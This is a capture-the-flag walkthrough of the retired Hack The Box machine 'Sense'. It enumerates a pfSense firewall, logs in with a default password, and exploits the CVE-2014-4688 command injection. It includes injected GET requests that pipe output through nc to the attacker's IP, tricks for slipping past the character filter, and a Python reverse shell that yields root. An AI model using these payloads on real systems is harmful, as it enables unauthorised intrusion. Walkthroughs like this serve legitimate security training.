 # Sense

This is the write-up for the box Sense that got retired at the 24th March 2018.
My IP address was 10.10.14.11 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.60    sense.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/sense.nmap 10.10.10.60
```

```markdown
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
```

## Checking HTTP and HTTPS (Port 80 & 443)

The web service on port 80 forwards to the web service on port 443 and it greets us with a **pfSense** login page:

![pfSense Login](https://kyuu-ji.github.io/htb-write-up/sense/sense_web-1.png)

This software is an open-source firewall and router software that is based on **FreeBSD**.
By default it has a Brute-Force protection that bans IP addresses for 24 hours after 15 failed login attempts, so we can't guess usernames.

But it is possible to search for hidden directories or files with **Gobuster**:
```markdown
gobuster -u https://10.10.10.60 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -x txt -t 250
```

I look for _txt_ files because searching for directories did not get any interesting results.
This way it finds two _txt_ files:
- /changelog.txt
```markdown
Security Changelog

Issue
There was a failure in updating the firewall. Manual patching is therefore required

Mitigated
2 of 3 vulnerabilities have been patched.

Timeline
The remaining patches will be installed during the next maintenance window
```

- /system-users.txt
```markdown
Support ticket

Please create the following user

username: Rohit
password: company defaults
```

The _changelog.txt_ shows that two out of three vulnerabilities are patched, so there is probably one that we can exploit.
In the _system-users.txt_ we get a the username _Rohit_ who has the company default password.

We don't know the company default password but when trying the default password for **pfSense**, which is _pfsense_, we get logged in with _rohit_.

![pfSense Dashboard](https://kyuu-ji.github.io/htb-write-up/sense/sense_web-2.png)

The version of this pfSense installation is 2.1.3 and we can search for public vulnerabilities:
```markdown
searchsploit pfsense
```

The vulnerability _"pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection"_ looks like one that we can use.
This vulnerability is registered with the CVE number **CVE-2014-4688**.
An explanation about this vulnerability can be found in [this blog post from Proteansec](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/).

### Command Execution

We need to send a GET request to the _"database"_ parameter which can be found in pfSense:
```markdown
Status --> RRD Graphs --> Right click on image --> View Image

https://10.10.10.60/status_rrd_graph_img.php?start=1586492753&end=1586521553&database=system-processor.rrd&style=inverse&graph=eight_hour
```

Lets send this request to **Burpsuite** and make it cleaner:
```markdown
GET /status_rrd_graph_img.php?&database=queues HTTP/1.1
```

Now we can start with the command execution:
```markdown
GET /status_rrd_graph_img.php?&database=queues;sleep+10
```

The response for this request takes about 10 seconds which means the `sleep` command went through and command execution works.
Unfortunately there is not output to stdout when executing something that needs output like `whoami`.

To get around this we use `nc` to connect to our client and use it as stdout:
```markdown
# Start listener on port 9001
nc -lvnp 9001

# Send request
GET /status_rrd_graph_img.php?&database=queues;whoami|nc+10.10.14.11+9001
```

The listener on my IP and port 9001 shows the output of `whoami` and it displays root.
When trying to start a reverse shell it won't work because there is a filter implemented for some special characters. For example the _slash_ character and _dash_ character does not work.

#### Bypassing the character filter

We can take a _slash_ character out of one of the environment variables.
```markdown
GET /status_rrd_graph_img.php?&database=queues;env|nc+10.10.14.11+9001
```

The environment variable for _HOME_ consists of a _slash_ character.
```markdown
GET /status_rrd_graph_img.php?&database=queues;echo+${HOME}test|nc+10.10.14.11+9001
```

The output of this request is _"/test"_ and thus we got a slash character. This way we can examine the whole filesystem:
```markdown
# Start listener on port 9001 and redirect to file
nc -lvnp 9001 > filesystem.txt

# Send request
GET /status_rrd_graph_img.php?&database=queues;find+${HOME}|nc+10.10.14.11+9001
```

Now a _dash_ character is needed to use parameters for commands. We can get this character by using the octal of the ASCII character of the dash with `printf`. The octal for _dash_ in the ASCII table is _55_.   
```markdown
GET /status_rrd_graph_img.php?&database=queues;printf+"\55"|nc+10.10.14.11+9001
```

The output of this request is a dash character.

### Starting a reverse shell

With all these workarounds to bypass the character filter, a reverse shell should be possible to execute.
First creating a Python reverse shell called _revshell.py_:
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.11",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Starting a listener on port 9001 with a redirect to _revshell.py_:
```markdown
nc -lvnp 9001 < revshell.py

nc -lvnp 1234
```

Sending the request:
```markdown
GET /status_rrd_graph_img.php?&database=queues;nc+10.10.14.11+9001|python
```

The listener on my IP and port 1234 starts a reverse shell connection as root!
